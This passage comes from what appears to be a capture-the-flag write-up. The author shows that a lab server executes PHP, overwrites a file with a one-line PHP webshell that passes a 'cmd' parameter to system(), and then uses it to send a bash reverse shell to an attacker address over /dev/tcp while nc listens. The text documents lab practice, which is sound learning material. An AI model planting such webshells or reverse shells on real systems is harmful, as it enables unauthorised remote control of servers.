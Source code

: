 

If I view this in Firefox and I see the entire file, that means that the
server is just returning static files. On the other hand, if it only
shows "0xdf was here!", then the server must have executed the file as
PHP, and returned only the output of that, showing that it is running
PHP.

It is running PHP:

![](/img/image-20221111154526636.png)

#### WebShell

I'll overwrite `0xdf.php` with a proper simple PHP webshell:



    dummy@hacky:/$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' 
    <?php
      system($_REQUEST[cmd]);
    ?>
    dummy@hacky:/$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > /mnt/0xdf.php



This is going to take a parameter (GET or POST) named `cmd` and pass it
into `system`, and the results will be returned.

Now if I just load the page, there's nothing there. But if I add
`?cmd=id` to the end:

![](/img/image-20221111160112917.png)

#### Shell

To go from this webshell to a full reverse shell, I'll just pass in a
[bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) as
`cmd`:



    bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'



For details on how this shell works, see [this
video](https://www.youtube.com/watch?v=OjkVep2EIlw).

Before pasting this in, I'll make sure my tun0 ip matches what's in the
command, and I'll need to URL encode the `&` characters to `%26`, or
else they will be treated as the end of the `cmd` parameter, with a new
parameter following.

I'll start `nc` listening on 443 (to match the port given above), and
then load the page:

[![](/img/image-20221111160716229.png)*Click
for full size
![image*](/img/image-20221111160716229.png)
